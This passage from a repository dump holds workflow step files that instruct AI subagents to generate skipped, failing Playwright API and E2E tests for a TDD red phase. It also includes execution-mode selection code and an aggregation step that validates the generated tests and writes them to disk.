  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(subagentContext.config.execution_mode) || 'auto';
const probeEnabled = subagentContext.config.capability_probe;

const supports = {
  subagent: runtime.canLaunchSubagents?.() === true,
  agentTeam: runtime.canLaunchAgentTeams?.() === true,
};

let resolvedMode = requestedMode;

if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}

subagentContext.execution = {
  requestedMode,
  resolvedMode,
  probeEnabled,
  supports,
};

if (!probeEnabled && (requestedMode === 'agent-team' || requestedMode === 'subagent')) {
  const unsupportedRequestedMode =
    (requestedMode === 'agent-team' && !supports.agentTeam) || (requestedMode === 'subagent' && !supports.subagent);

  if (unsupportedRequestedMode) {
    subagentContext.execution.error = `Requested execution mode "${requestedMode}" is unavailable because capability probing is disabled.`;
    throw new Error(subagentContext.execution.error);
  }
}
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

If probing is disabled, honor the requested mode strictly. If that mode cannot be executed at runtime, fail with explicit error instead of silent fallback.

---

### 3. Dispatch Worker A: Failing API Test Generation

**Dispatch worker:**

- **Subagent File:** `./step-04a-subagent-api-failing.md`
- **Output File:** `/tmp/tea-atdd-api-tests-${timestamp}.json`
- **Context:** Pass `subagentContext`
- **Execution:**
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait before next dispatch
- **TDD Phase:** RED (failing tests)

**System Action:**

```
🚀 Launching Subagent A: FAILING API Test Generation (RED PHASE)
📝 Output: /tmp/tea-atdd-api-tests-${timestamp}.json
⚙️ Mode: ${resolvedMode}
🔴 TDD Phase: RED (tests will fail until feature implemented)
⏳ Status: Running...
```

---

### 4. Dispatch Worker B: Failing E2E Test Generation

**Dispatch worker:**

- **Subagent File:** `./step-04b-subagent-e2e-failing.md`
- **Output File:** `/tmp/tea-atdd-e2e-tests-${timestamp}.json`
- **Context:** Pass `subagentContext`
- **Execution:**
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait before next dispatch
- **TDD Phase:** RED (failing tests)

**System Action:**

```
🚀 Launching Subagent B: FAILING E2E Test Generation (RED PHASE)
📝 Output: /tmp/tea-atdd-e2e-tests-${timestamp}.json
⚙️ Mode: ${resolvedMode}
🔴 TDD Phase: RED (tests will fail until feature implemented)
⏳ Status: Running...
```

---

### 5. Wait for Required Worker Completion

**If `resolvedMode` is `agent-team` or `subagent`:**

```
⏳ Waiting for subagents to complete...
  ├── Subagent A (API RED): Running... ⟳
  └── Subagent B (E2E RED): Running... ⟳

[... time passes ...]

  ├── Subagent A (API RED): Complete ✅
  └── Subagent B (E2E RED): Complete ✅

✅ All subagents completed successfully!
```

**If `resolvedMode` is `sequential`:**

```
✅ Sequential mode: each worker already completed during dispatch.
```

**Verify both outputs exist:**

```javascript
const apiOutputExists = fs.existsSync(`/tmp/tea-atdd-api-tests-${timestamp}.json`);
const e2eOutputExists = fs.existsSync(`/tmp/tea-atdd-e2e-tests-${timestamp}.json`);

if (!apiOutputExists || !e2eOutputExists) {
  throw new Error('One or both subagent outputs missing!');
}
```

---

### 6. TDD Red Phase Report

**Display TDD status:**

```
🔴 TDD RED PHASE: Failing Tests Generated

✅ Both subagents completed:
- API Tests: Generated with test.skip()
- E2E Tests: Generated with test.skip()

📋 All tests assert EXPECTED behavior
📋 All tests will FAIL until feature implemented
📋 This is INTENTIONAL (TDD red phase)

Next: Aggregation will verify TDD compliance
```

---

### 7. Execution Report

**Display performance metrics:**

```
🚀 Performance Report:
- Execution Mode: {resolvedMode}
- API Test Generation: ~X minutes
- E2E Test Generation: ~Y minutes
- Total Elapsed: ~mode-dependent
- Parallel Gain: ~50% faster when mode is subagent/agent-team
```

---

### 8. Proceed to Aggregation

**Load aggregation step:**
Load next step: `{nextStepFile}`

The aggregation step (4C) will:

- Read both subagent outputs
- Verify TDD red phase compliance (all tests have test.skip())
- Write all test files to disk
- Generate ATDD checklist
- Calculate summary statistics

---

## EXIT CONDITION

Proceed to Step 4C (Aggregation) when:

- ✅ Subagent A (API failing tests) completed successfully
- ✅ Subagent B (E2E failing tests) completed successfully
- ✅ Both output files exist and are valid JSON
- ✅ TDD red phase status reported

**Do NOT proceed if:**

- ❌ One or both subagents failed
- ❌ Output files missing or corrupted
- ❌ Subagent generated passing tests (wrong - must be failing)

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Both subagents launched successfully
- Both worker steps completed without errors
- Output files generated and valid
- Tests generated with test.skip() (TDD red phase)
- Fallback behavior respected configuration and capability probe rules

### ❌ SYSTEM FAILURE:

- Failed to launch subagents
- One or both subagents failed
- Output files missing or invalid
- Tests generated without test.skip() (wrong phase)
- Unsupported requested mode with probing disabled

**Master Rule:** TDD RED PHASE requires FAILING tests (with test.skip()). Mode selection changes orchestration, never red-phase requirements.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-04a-subagent-api-failing.md`
```markdown
---
name: 'step-04a-subagent-api-failing'
description: 'Subagent: Generate FAILING API tests (TDD red phase)'
subagent: true
outputFile: '/tmp/tea-atdd-api-tests-{{timestamp}}.json'
---

# Subagent 4A: Generate Failing API Tests (TDD Red Phase)

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with E2E failing test generation.

**What you have from parent workflow:**

- Story acceptance criteria from Step 1
- Test strategy and scenarios from Step 3
- Knowledge fragments loaded: api-request, data-factories, api-testing-patterns
- Config: test framework, Playwright Utils enabled/disabled, Pact.js Utils enabled/disabled (`use_pactjs_utils`), Pact MCP mode (`pact_mcp`)
- Provider Endpoint Map (if `use_pactjs_utils` enabled and provider source accessible)

**If `use_pactjs_utils` is enabled:** Also generate consumer contract tests alongside API tests. Use the loaded pactjs-utils fragments (`pactjs-utils-overview`, `pactjs-utils-consumer-helpers`, `pactjs-utils-provider-verifier`, `pactjs-utils-request-filter`, `pact-consumer-di`) for patterns. If `pact_mcp` is `"mcp"`, use SmartBear MCP tools (Fetch Provider States, Generate Pact Tests) to inform test generation.

**Your task:** Generate API tests that will FAIL because the feature is not implemented yet (TDD RED PHASE).

---

## MANDATORY EXECUTION RULES

- 📖 Read this entire subagent file before acting
- ✅ Generate FAILING API tests ONLY
- ✅ Tests MUST fail when run (feature not implemented yet)
- ✅ Output structured JSON to temp file
- ✅ Follow knowledge fragment patterns
- ❌ Do NOT generate E2E tests (that's subagent 4B)
- ❌ Do NOT generate passing tests (this is TDD red phase)
- ❌ Do NOT run tests (that's step 5)

---

## SUBAGENT TASK

### 1. Identify API Endpoints from Acceptance Criteria

From the story acceptance criteria (Step 1 output), identify:

- Which API endpoints will be created for this story
- Expected request/response contracts
- Authentication requirements
- Expected status codes and error scenarios

**Example Acceptance Criteria:**

```
Story: User Registration
- As a user, I can POST to /api/users/register with email and password
- System returns 201 Created with user object
- System returns 400 Bad Request if email already exists
- System returns 422 Unprocessable Entity if validation fails
```

### 2. Generate FAILING API Test Files

For each API endpoint, create test file in `tests/api/[feature].spec.ts`:

**Test Structure (ATDD - Red Phase):**

```typescript
import { test, expect } from '@playwright/test';
// If Playwright Utils enabled:
// import { apiRequest } from '@playwright-utils/api';

test.describe('[Story Name] API Tests (ATDD)', () => {
  test.skip('[P0] should register new user successfully', async ({ request }) => {
    // THIS TEST WILL FAIL - Endpoint not implemented yet
    const response = await request.post('/api/users/register', {
      data: {
        email: 'newuser@example.com',
        password: 'SecurePass123!',
      },
    });

    // Expect 201 but will get 404 (endpoint doesn't exist)
    expect(response.status()).toBe(201);

    const user = await response.json();
    expect(user).toMatchObject({
      id: expect.any(Number),
      email: 'newuser@example.com',
    });
  });

  test.skip('[P1] should return 400 if email exists', async ({ request }) => {
    // THIS TEST WILL FAIL - Endpoint not implemented yet
    const response = await request.post('/api/users/register', {
      data: {
        email: 'existing@example.com',
        password: 'SecurePass123!',
      },
    });

    expect(response.status()).toBe(400);
    const error = await response.json();
    expect(error.message).toContain('Email already exists');
  });
});
```

**CRITICAL ATDD Requirements:**

- ✅ Use `test.skip()` to mark tests as intentionally failing (red phase)
- ✅ Write assertions for EXPECTED behavior (even though not implemented)
- ✅ Use realistic test data (not placeholder data)
- ✅ Test both happy path and error scenarios from acceptance criteria
- ✅ Use `apiRequest()` helper if Playwright Utils enabled
- ✅ Use data factories for test data (from data-factories fragment)
- ✅ Include priority tags [P0], [P1], [P2], [P3]

### 1.5 Provider Source Scrutiny for CDC in TDD Red Phase (If `use_pactjs_utils` Enabled)

When generating Pact consumer contract tests in the ATDD red phase, provider scrutiny applies with TDD-specific rules. Apply the **Seven-Point Scrutiny Checklist** from `contract-testing.md` (Response shape, Status codes, Field names, Enum values, Required fields, Data types, Nested structures) for both existing and new endpoints.

**If provider endpoint already exists** (extending an existing API):

- READ the provider route handler, types, and validation schemas
- Verify all seven scrutiny points against the provider source: Response shape, Status codes, Field names, Enum values, Required fields, Data types, Nested structures
- Add `// Provider endpoint:` comment and scrutiny evidence block documenting findings for each point
- Wrap the entire test function in `test.skip()` (so the whole test including `executeTest` is skipped), not just the callback

**If provider endpoint is new** (TDD — endpoint not implemented yet):

- Use acceptance criteria as the source of truth for expected behavior
- Acceptance criteria should specify all seven scrutiny points where possible (status codes, field names, types, etc.) — note any gaps as assumptions in the evidence block
- Add `// Provider endpoint: TODO — new endpoint, not yet implemented`
- Document expected behavior from acceptance criteria in scrutiny evidence block
- Wrap the entire test function in `test.skip()` and use realistic expectations from the story

**Graceful degradation when provider source is inaccessible:**

1. **OpenAPI/Swagger spec available**: Use the spec as the source of truth for response shapes, status codes, and field names
2. **Pact Broker available** (when `pact_mcp` is `"mcp"`): Use SmartBear MCP tools to fetch existing provider states and verified interactions as reference
3. **Neither available**: For new endpoints, use acceptance criteria; for existing endpoints, use consumer-side types. Mark with `// Provider endpoint: TODO — provider source not accessible, verify manually` and set `provider_scrutiny: "pending"` in output JSON
4. **Never silently guess**: Document all assumptions in the scrutiny evidence block

**Provider endpoint comments are MANDATORY** even in red-phase tests — they document the intent.

**Example: Red-phase Pact test with provider scrutiny:**

```typescript
// Provider endpoint: TODO — new endpoint, not yet implemented
/*
 * Provider Scrutiny Evidence:
 * - Handler: NEW — not yet implemented (TDD red phase)
 * - Expected from acceptance criteria:
 *   - Endpoint: POST /api/v2/users/register
 *   - Status: 201 for success, 400 for duplicate email, 422 for validation error
 *   - Response: { id: number, email: string, createdAt: string }
 */
test.skip('[P0] should generate consumer contract for user registration', async () => {
  await provider
    .given('no users exist')
    .uponReceiving('a request to register a new user')
    .withRequest({
      method: 'POST',
      path: '/api/v2/users/register',
      headers: { 'Content-Type': 'application/json' },
      body: { email: 'newuser@example.com', password: 'SecurePass123!' },
    })
    .willRespondWith({
      status: 201,
      headers: { 'Content-Type': 'application/json' },
      body: like({
        id: integer(1),
        email: string('newuser@example.com'),
        createdAt: string('2025-01-15T10:00:00Z'),
      }),
    })
    .executeTest(async (mockServer) => {
      const result = await registerUser({ email: 'newuser@example.com', password: 'SecurePass123!' }, { baseUrl: mockServer.url });
      expect(result.id).toEqual(expect.any(Number));
    });
});
```

**Why test.skip():**

- Tests are written correctly for EXPECTED behavior
- But we know they'll fail because feature isn't implemented
- `test.skip()` documents this is intentional (TDD red phase)
- Once feature is implemented, remove `test.skip()` to verify green phase

### 3. Track Fixture Needs

Identify fixtures needed for API tests:

- Authentication fixtures (if endpoints require auth)
- Data factories (user data, etc.)
- API client configurations

**Do NOT create fixtures yet** - just track what's needed for aggregation step.

---

## OUTPUT FORMAT

Write JSON to temp file: `/tmp/tea-atdd-api-tests-{{timestamp}}.json`

```json
{
  "success": true,
  "subagent": "atdd-api-tests",
  "tests": [
    {
      "file": "tests/api/user-registration.spec.ts",
      "content": "[full TypeScript test file content with test.skip()]",
      "description": "ATDD API tests for user registration (RED PHASE)",
      "expected_to_fail": true,
      "acceptance_criteria_covered": [
        "User can register with email/password",
        "System returns 201 on success",
        "System returns 400 if email exists"
      ],
      "priority_coverage": {
        "P0": 1,
        "P1": 2,
        "P2": 0,
        "P3": 0
      }
    }
  ],
  "fixture_needs": ["userDataFactory"],
  "knowledge_fragments_used": [
    "api-request",
    "data-factories",
    "api-testing-patterns",
    "pactjs-utils-consumer-helpers",
    "pact-consumer-di"
  ],
  "test_count": 3,
  "tdd_phase": "RED",
  "provider_scrutiny": "completed",
  "summary": "Generated 3 FAILING API tests for user registration story"
}
```

**On Error:**

```json
{
  "success": false,
  "subagent": "atdd-api-tests",
  "error": "Error message describing what went wrong",
  "partial_output": {
    /* any tests generated before error */
  }
}
```

---

## EXIT CONDITION

Subagent completes when:

- ✅ All API endpoints from acceptance criteria have test files
- ✅ All tests use `test.skip()` (documented failing tests)
- ✅ All tests assert EXPECTED behavior (not placeholder assertions)
- ✅ JSON output written to temp file
- ✅ Fixture needs to be tracked

**Subagent terminates here.** Parent workflow will read output and proceed to aggregation.

---

## 🚨 SUBAGENT SUCCESS METRICS

### ✅ SUCCESS:

- All API tests generated with test.skip()
- Tests assert expected behavior (not placeholders)
- JSON output valid and complete
- No E2E/component/unit tests included (out of scope)
- Tests follow knowledge fragment patterns
- Every Pact interaction has `// Provider endpoint:` comment (if CDC enabled)
- Provider scrutiny completed or TODO markers added for new endpoints (if CDC enabled)

### ❌ FAILURE:

- Generated passing tests (wrong - this is RED phase)
- Tests without test.skip() (will break CI)
- Placeholder assertions (expect(true).toBe(true))
- Did not follow knowledge fragment patterns
- Invalid or missing JSON output
- Pact interactions missing provider endpoint comments (if CDC enabled)
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-04b-subagent-e2e-failing.md`
```markdown
---
name: 'step-04b-subagent-e2e-failing'
description: 'Subagent: Generate FAILING E2E tests (TDD red phase)'
subagent: true
outputFile: '/tmp/tea-atdd-e2e-tests-{{timestamp}}.json'
---

# Subagent 4B: Generate Failing E2E Tests (TDD Red Phase)

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with API failing test generation.

**What you have from parent workflow:**

- Story acceptance criteria from Step 1
- Test strategy and user journey scenarios from Step 3
- Knowledge fragments loaded: fixture-architecture, network-first, selector-resilience
- Config: test framework, Playwright Utils enabled/disabled

**Your task:** Generate E2E tests that will FAIL because the feature UI is not implemented yet (TDD RED PHASE).

---

## MANDATORY EXECUTION RULES

- 📖 Read this entire subagent file before acting
- ✅ Generate FAILING E2E tests ONLY
- ✅ Tests MUST fail when run (UI not implemented yet)
- ✅ Output structured JSON to temp file
- ✅ Follow knowledge fragment patterns
- ❌ Do NOT generate API tests (that's subagent 4A)
- ❌ Do NOT generate passing tests (this is TDD red phase)
- ❌ Do NOT run tests (that's step 5)

---

## SUBAGENT TASK

### 1. Identify User Journeys from Acceptance Criteria

From the story acceptance criteria (Step 1 output), identify:

- Which UI flows will be created for this story
- User interactions required
- Expected visual states
- Success/error messages expected

**Example Acceptance Criteria:**

```
Story: User Registration
- As a user, I can navigate to /register page
- I can fill in email and password fields
- I can click "Register" button
- System shows success message and redirects to dashboard
- System shows error if email already exists
```

### 2. Browser Interaction (Selector Verification)

**Automation mode:** `config.tea_browser_automation`

If `auto` (fall back to MCP if CLI unavailable; if neither available, generate from best practices):

- Open the target page first, then verify selectors with a snapshot:
  `playwright-cli -s=tea-atdd-{{timestamp}} open <target_url>`
  `playwright-cli -s=tea-atdd-{{timestamp}} snapshot` → map refs to Playwright locators
  - ref `{role: "button", name: "Submit"}` → `page.getByRole('button', { name: 'Submit' })`
  - ref `{role: "textbox", name: "Email"}` → `page.getByRole('textbox', { name: 'Email' })`
- `playwright-cli -s=tea-atdd-{{timestamp}} close` when done

If `cli` (CLI only — do NOT fall back to MCP; generate from best practices if CLI unavailable):

- Open the target page first, then verify selectors with a snapshot:
  `playwright-cli -s=tea-atdd-{{timestamp}} open <target_url>`
  `playwright-cli -s=tea-atdd-{{timestamp}} snapshot` → map refs to Playwright locators
  - ref `{role: "button", name: "Submit"}` → `page.getByRole('button', { name: 'Submit' })`
  - ref `{role: "textbox", name: "Email"}` → `page.getByRole('textbox', { name: 'Email' })`
- `playwright-cli -s=tea-atdd-{{timestamp}} close` when done

> **Session Hygiene:** Always close sessions using `playwright-cli -s=tea-atdd-{{timestamp}} close`. Do NOT use `close-all` — it kills every session on the machine and breaks parallel execution.

If `mcp`:

- Use MCP tools for selector verification (current behavior)

If `none`:

- Generate selectors from best practices without browser verification

### 3. Generate FAILING E2E Test Files

For each user journey, create test file in `tests/e2e/[feature].spec.ts`:

**Test Structure (ATDD - Red Phase):**

```typescript
import { test, expect } from '@playwright/test';

test.describe('[Story Name] E2E User Journey (ATDD)', () => {
  test.skip('[P0] should complete user registration successfully', async ({ page }) => {
    // THIS TEST WILL FAIL - UI not implemented yet
    await page.goto('/register');

    // Expect registration form but will get 404 or missing elements
    await page.fill('[name="email"]', 'newuser@example.com');
    await page.fill('[name="password"]', 'SecurePass123!');
    await page.click('button:has-text("Register")');

    // Expect success message and redirect
    await expect(page.getByText('Registration successful!')).toBeVisible();
    await page.waitForURL('/dashboard');
  });

  test.skip('[P1] should show error if email exists', async ({ page }) => {
    // THIS TEST WILL FAIL - UI not implemented yet
    await page.goto('/register');

    await page.fill('[name="email"]', 'existing@example.com');
    await page.fill('[name="password"]', 'SecurePass123!');
    await page.click('button:has-text("Register")');

    // Expect error message
    await expect(page.getByText('Email already exists')).toBeVisible();
  });
});
```

**CRITICAL ATDD Requirements:**

- ✅ Use `test.skip()` to mark tests as intentionally failing (red phase)
- ✅ Write assertions for EXPECTED UI behavior (even though not implemented)
- ✅ Use resilient selectors: getByRole, getByText, getByLabel (from selector-resilience)
- ✅ Follow network-first patterns if API calls involved (from network-first)
- ✅ Test complete user journeys from acceptance criteria
- ✅ Include priority tags [P0], [P1], [P2], [P3]
- ✅ Use proper TypeScript types
- ✅ Deterministic waits (no hard sleeps)

**Why test.skip():**

- Tests are written correctly for EXPECTED UI behavior
- But we know they'll fail because UI isn't implemented
- `test.skip()` documents this is intentional (TDD red phase)
- Once UI is implemented, remove `test.skip()` to verify green phase

### 4. Track Fixture Needs

Identify fixtures needed for E2E tests:

- Authentication fixtures (if journey requires logged-in state)
- Network mocks (if API calls involved)
- Test data fixtures

**Do NOT create fixtures yet** - just track what's needed for aggregation step.

---

## OUTPUT FORMAT

Write JSON to temp file: `/tmp/tea-atdd-e2e-tests-{{timestamp}}.json`

```json
{
  "success": true,
  "subagent": "atdd-e2e-tests",
  "tests": [
    {
      "file": "tests/e2e/user-registration.spec.ts",
      "content": "[full TypeScript test file content with test.skip()]",
      "description": "ATDD E2E tests for user registration journey (RED PHASE)",
      "expected_to_fail": true,
      "acceptance_criteria_covered": [
        "User can navigate to /register",
        "User can fill registration form",
        "System shows success message on registration",
        "System shows error if email exists"
      ],
      "priority_coverage": {
        "P0": 1,
        "P1": 1,
        "P2": 0,
        "P3": 0
      }
    }
  ],
  "fixture_needs": ["registrationPageMock"],
  "knowledge_fragments_used": ["fixture-architecture", "network-first", "selector-resilience"],
  "test_count": 2,
  "tdd_phase": "RED",
  "summary": "Generated 2 FAILING E2E tests for user registration story"
}
```

**On Error:**

```json
{
  "success": false,
  "subagent": "atdd-e2e-tests",
  "error": "Error message describing what went wrong",
  "partial_output": {
    /* any tests generated before error */
  }
}
```

---

## EXIT CONDITION

Subagent completes when:

- ✅ All user journeys from acceptance criteria have test files
- ✅ All tests use `test.skip()` (documented failing tests)
- ✅ All tests assert EXPECTED UI behavior (not placeholder assertions)
- ✅ Resilient selectors used (getByRole, getByText)
- ✅ JSON output written to temp file
- ✅ Fixture needs tracked

**Subagent terminates here.** Parent workflow will read output and proceed to aggregation.

---

## 🚨 SUBAGENT SUCCESS METRICS

### ✅ SUCCESS:

- All E2E tests generated with test.skip()
- Tests assert expected UI behavior (not placeholders)
- Resilient selectors used (getByRole, getByText)
- JSON output valid and complete
- No API/component/unit tests included (out of scope)
- Tests follow knowledge fragment patterns

### ❌ FAILURE:

- Generated passing tests (wrong - this is RED phase)
- Tests without test.skip() (will break CI)
- Placeholder assertions (expect(true).toBe(true))
- Brittle selectors used (CSS classes, XPath)
- Did not follow knowledge fragment patterns
- Invalid or missing JSON output
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-04c-aggregate.md`
```markdown
---
name: 'step-04c-aggregate'
description: 'Aggregate subagent outputs and complete ATDD test infrastructure'
outputFile: '{test_artifacts}/atdd-checklist-{story_id}.md'
nextStepFile: './step-05-validate-and-complete.md'
---

# Step 4C: Aggregate ATDD Test Generation Results

## STEP GOAL

Read outputs from parallel subagents (API + E2E failing test generation), aggregate results, verify TDD red phase compliance, and create supporting infrastructure.

---

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Read subagent outputs from temp files
- ✅ Verify all tests are marked with test.skip() (TDD red phase)
- ✅ Generate shared fixtures based on fixture needs
- ✅ Write all generated test files to disk
- ❌ Do NOT remove test.skip() (that's done after feature implementation)
- ❌ Do NOT run tests yet (that's step 5 - verify they fail)

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, subagent outputs from temp files
- Focus: aggregation and TDD validation
- Limits: do not execute future steps
- Dependencies: Step 4A and 4B subagent outputs

---

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Read Subagent Outputs

**Read API test subagent output:**

```javascript
const apiTestsPath = '/tmp/tea-atdd-api-tests-{{timestamp}}.json';
const apiTestsOutput = JSON.parse(fs.readFileSync(apiTestsPath, 'utf8'));
```

**Read E2E test subagent output:**

```javascript
const e2eTestsPath = '/tmp/tea-atdd-e2e-tests-{{timestamp}}.json';
const e2eTestsOutput = JSON.parse(fs.readFileSync(e2eTestsPath, 'utf8'));
```

**Verify both subagents succeeded:**

- Check `apiTestsOutput.success === true`
- Check `e2eTestsOutput.success === true`
- If either failed, report error and stop (don't proceed)

---

### 2. Verify TDD Red Phase Compliance

**CRITICAL TDD Validation:**

**Check API tests:**

```javascript
apiTestsOutput.tests.forEach((test) => {
  // Verify test.skip() is present
  if (!test.content.includes('test.skip(')) {
    throw new Error(`ATDD ERROR: ${test.file} missing test.skip() - tests MUST be skipped in red phase!`);
  }

  // Verify not placeholder assertions
  if (test.content.includes('expect(true).toBe(true)')) {
    throw new Error(`ATDD ERROR: ${test.file} has placeholder assertions - must assert EXPECTED behavior!`);
  }

  // Verify expected_to_fail flag
  if (!test.expected_to_fail) {
    throw new Error(`ATDD ERROR: ${test.file} not marked as expected_to_fail!`);
  }
});
```

**Check E2E tests:**

```javascript
e2eTestsOutput.tests.forEach((test) => {
  // Same validation as API tests
  if (!test.content.includes('test.skip(')) {
    throw new Error(`ATDD ERROR: ${test.file} missing test.skip() - tests MUST be skipped in red phase!`);
  }

  if (test.content.includes('expect(true).toBe(true)')) {
    throw new Error(`ATDD ERROR: ${test.file} has placeholder assertions!`);
  }

  if (!test.expected_to_fail) {
    throw new Error(`ATDD ERROR: ${test.file} not marked as expected_to_fail!`);
  }
});
```

**If validation passes:**

```
✅ TDD Red Phase Validation: PASS
- All tests use test.skip()
- All tests assert expected behavior (not placeholders)
- All tests marked as expected_to_fail
```

---

### 3. Write All Test Files to Disk

**Write API test files:**

```javascript
apiTestsOutput.tests.forEach((test) => {
  fs.writeFileSync(test.file, test.content, 'utf8');
  console.log(`✅ Created (RED): ${test.file}`);
});
```

**Write E2E test files:**

```javascript
e2eTestsOutput.tests.forEach((test) => {
  fs.writeFileSync(test.file, test.content, 'utf8');
  console.log(`✅ Created (RED): ${test.file}`);
});
```

---

### 4. Aggregate Fixture Needs

**Collect all fixture needs from both subagents:**

```javascript
const allFixtureNeeds = [...apiTestsOutput.fixture_needs, ...e2eTestsOutput.fixture_needs];

// Remove duplicates
const uniqueFixtures = [...new Set(allFixtureNeeds)];
```

---

### 5. Generate Fixture Infrastructure

**Create fixtures needed by ATDD tests:**
(Similar to automate workflow, but may be simpler for ATDD since feature not implemented)

**Minimal fixtures for TDD red phase:**

```typescript
// tests/fixtures/test-data.ts
export const testUserData = {
  email: 'test@example.com',
  password: 'SecurePass123!',
};
```

Note: More complete fixtures will be needed when moving to green phase.

---

### 6. Generate ATDD Checklist

**Create ATDD checklist document:**

```markdown
# ATDD Checklist: [Story Name]

## TDD Red Phase (Current)

✅ Failing tests generated

- API Tests: {api_test_count} tests (all skipped)
- E2E Tests: {e2e_test_count} tests (all skipped)

## Acceptance Criteria Coverage

{list all acceptance criteria with test coverage}

## Next Steps (TDD Green Phase)

After implementing the feature:

1. Remove `test.skip()` from all test files
2. Run tests: `npm test`
3. Verify tests PASS (green phase)
4. If any tests fail:
   - Either fix implementation (feature bug)
   - Or fix test (test bug)
5. Commit passing tests

## Implementation Guidance

Feature endpoints to implement:
{list endpoints from API tests}

UI components to implement:
{list UI flows from E2E tests}
```

**Save checklist:**

```javascript
fs.writeFileSync(`{test_artifacts}/atdd-checklist-{story-id}.md`, checklistContent, 'utf8');
```

---

### 7. Calculate Summary Statistics

**Aggregate test counts:**

```javascript
const resolvedMode = subagentContext?.execution?.resolvedMode; // Provided by Step 4's orchestration context
const subagentExecutionLabel =
  resolvedMode === 'sequential'
    ? 'SEQUENTIAL (API → E2E)'
    : resolvedMode === 'agent-team'
      ? 'AGENT-TEAM (API + E2E)'
      : resolvedMode === 'subagent'
        ? 'SUBAGENT (API + E2E)'
        : 'PARALLEL (API + E2E)';
const performanceGainLabel =
  resolvedMode === 'sequential'
    ? 'baseline (no parallel speedup)'
    : resolvedMode === 'agent-team' || resolvedMode === 'subagent'
      ? '~50% faster than sequential'
      : 'mode-dependent';

const summary = {
  tdd_phase: 'RED',
  total_tests: apiTestsOutput.test_count + e2eTestsOutput.test_count,
  api_tests: apiTestsOutput.test_count,
  e2e_tests: e2eTestsOutput.test_count,
  all_tests_skipped: true,
  expected_to_fail: true,
  fixtures_created: uniqueFixtures.length,
  acceptance_criteria_covered: [
    ...apiTestsOutput.tests.flatMap((t) => t.acceptance_criteria_covered),
    ...e2eTestsOutput.tests.flatMap((t) => t.acceptance_criteria_covered),
  ],
  knowledge_fragments_used: [...apiTestsOutput.knowledge_fragments_used, ...e2eTestsOutput.knowledge_fragments_used],
  subagent_execution: subagentExecutionLabel,
  performance_gain: performanceGainLabel,
};
```

**Store summary for Step 5:**

```javascript
fs.writeFileSync('/tmp/tea-atdd-summary-{{timestamp}}.json', JSON.stringify(summary, null, 2), 'utf8');
```

---

## OUTPUT SUMMARY

Display to user:

```
✅ ATDD Test Generation Complete (TDD RED PHASE)

🔴 TDD Red Phase: Failing Tests Generated

📊 Summary:
- Total Tests: {total_tests} (all with test.skip())
  - API Tests: {api_tests} (RED)
  - E2E Tests: {e2e_tests} (RED)
- Fixtures Created: {fixtures_created}
- All tests will FAIL until feature implemented

✅ Acceptance Criteria Coverage:
{list all covered criteria}

🚀 Performance: {performance_gain}

📂 Generated Files:
- tests/api/[feature].spec.ts (with test.skip())
- tests/e2e/[feature].spec.ts (with test.skip())
- tests/fixtures/test-data.ts
- {test_artifacts}/atdd-checklist-{story-id}.md

📝 Next Steps:
1. Implement the feature
2. Remove test.skip() from tests
3. Run tests → verify PASS (green phase)
4. Commit passing tests

✅ Ready for validation (Step 5 - verify tests fail as expected)
```

---

## EXIT CONDITION

Proceed to Step 5 when:

- ✅ All test files written to disk (API + E2E)
- ✅ All tests verified to have test.skip()
- ✅ All fixtures created
- ✅ ATDD checklist generated
- ✅ Summary statistics calculated and saved
- ✅ Output displayed to user

---

### 8. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04c-aggregate']
  lastStep: 'step-04c-aggregate'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04c-aggregate'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04c-aggregate'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

Load next step: `{nextStepFile}`

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Both subagents succeeded
- All tests have test.skip() (TDD red phase compliant)
- All tests assert expected behavior (not placeholders)
- All test files written to disk
- ATDD checklist generated

### ❌ SYSTEM FAILURE:

- One or both subagents failed
- Tests missing test.skip() (would break CI)
- Tests have placeholder assertions
- Test files not written to disk
- ATDD checklist missing

**Master Rule:** TDD RED PHASE requires ALL tests to use test.skip() and assert expected behavior.
```

